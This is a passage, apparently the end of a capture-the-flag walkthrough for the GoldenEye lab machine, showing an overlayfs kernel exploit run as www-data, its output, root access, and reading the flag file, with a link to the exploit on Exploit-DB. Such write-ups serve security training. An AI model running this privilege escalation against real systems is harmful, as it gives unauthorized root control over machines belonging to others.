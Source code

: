 - Run the exploit to get root access:

```bash
www-data@ubuntu:/dev/shm$ ./ofs 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library

# whoami
root

# cd /root
# ls -la
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo

# cat .flag.txt
Alec told me to place the codes here: 

REDACTED

If you captured this make sure to go here.....
/006-final/xvf7-flag/
```

![Golden Eye - Flag Captured](Images/GoldenEye-Flag.png)

---

## References

- [Overlayfs Exploit](https://www.exploit-db.com/exploits/37292)
- [Pop3 Commands](https://www.shellhacks.com/retrieve-email-pop3-server-command-line/)